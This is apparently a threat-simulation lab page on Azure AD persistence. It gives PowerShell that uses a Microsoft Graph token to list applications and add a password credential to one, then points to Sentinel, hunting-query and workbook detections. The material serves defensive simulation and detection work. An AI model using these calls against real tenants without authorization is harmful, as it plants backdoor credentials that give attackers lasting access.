


# Add Credentials to Application

Once a threat actor identifies an application of interest to authenticate with, credentials can be added to it. This allows the adversary to use custom credentials and maintain persistence.
[Based on MS documentatio](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow), like a user, during the authentication flows we're focused on, an application must present credentials. 

This authentication consists of two elements:
* An Application ID, sometimes referred to as a Client ID. A GUID that uniquely identifies the app's registration in your Active Directory tenant.
* A secret associated with the application ID. You can either generate a client secret string (similar to a password) or specify an X509 certificate (which uses its public key).

[An application object is the global representation of an application for use across all tenants, and the service principal is the local representation for use in a specific tenant](https://docs.microsoft.com/en-us/azure/active-directory/develop/app-objects-and-service-principals). A service principal must be created in each tenant where the application is used, enabling it to establish an identity for sign-in and/or access to resources being secured by the tenant.

## Preconditions
* Authorization
    * Identity solution: Azure AD
    * Access control model: Discretionary Access Control (DAC)
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions: Application.ReadWrite.All
* Microsoft Graph Access Token
## Main Steps
1.	Enumerate Existing applications 
2.	Add credentials to application

## Current Status of Application (Credentials & Secrets)
1.	Browse to [Azure Portal](https://portal.azure.com/)
2.	Go to Azure AD > App Registrations > `MY APPLICATION` > Certificates & Secrets


Before simulating a threat actor adding credentials to an application, we need to have a Microsoft Graph access token with permissions to add credentials to applications.


## Enumerate Existing Azure AD Applications

```PowerShell
$headers = @{"Authorization" = "Bearer $MSGraphAccessToken"}
$params = @{
    "Method"  = "Get"
    "Uri"     = https://graph.microsoft.com/v1.0/applications
    "Headers" = $headers
}
$applications = Invoke-RestMethod @params
$applications

$appObjectId = $applications.value[0].id
$appObjectId
```


## Adding Credentials to an Application

### Adding Credentials (Password) to an Application

```PowerShell
$pwdCredentialName = 'SimuLand2021'
$headers = @{
    "Content-Type"  = "application/json"
    "Authorization" = "Bearer $MSGraphAccessToken"
}
$body = @{
    passwordCredential = @{ displayName = "$($pwdCredentialName)" }
}
$params = @{
    "Method"  = "Post"
    "Uri"     = https://graph.microsoft.com/v1.0/applications/$appObjectId/addPassword
    "Body"    = $body | ConvertTo-Json –Compress
    "Headers" = $headers
}
$credentials = Invoke-RestMethod @params
$credentials
$secret = $credentials.secretText
$secret
```
 


Browse to [Azure Portal](https://portal.azure.com/) and go to Azure AD > App Registrations > <MY APPLICATION> > Certificates & Secrets to verify the task


## Detect Adding Credentials to an Application

### Azure Sentinel
* [New access credential added to Application or Service Principal](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/NewAppOrServicePrincipalCredential.yaml)
* [First access credential added to Application or Service Principal where no credential was present](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/FirstAppOrServicePrincipalCredential.yaml)

### Microsoft 365 hunting
* [Credentials were added to an Azure AD application after 'Admin Consent' permissions granted [Nobelium]](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/773ebb498e0aa897678be98c34ffa56359bf29d9/Persistence/CredentialsAddAfterAdminConsentedToApp%5BNobelium%5D.md)

### Azure AD Workbook: `Sensitive Operations Report`
1.	Browse to [Azure Portal](https://portal.azure.com/)
2.	Azure AD > Workbooks > Sensitive Operations Report


### Microsoft Cloud App Security
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “Microsoft Cloud App Security”
3.	Alerts
 




# References
* [OAuth 2.0 client credentials flow on the Microsoft identity platform | Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow)
* [Use an app identity to access resources - Azure Stack Hub | Microsoft Docs](https://docs.microsoft.com/en-us/azure-stack/operator/azure-stack-create-service-principals?view=azs-2008&tabs=az1%2Caz2&pivots=state-disconnected)

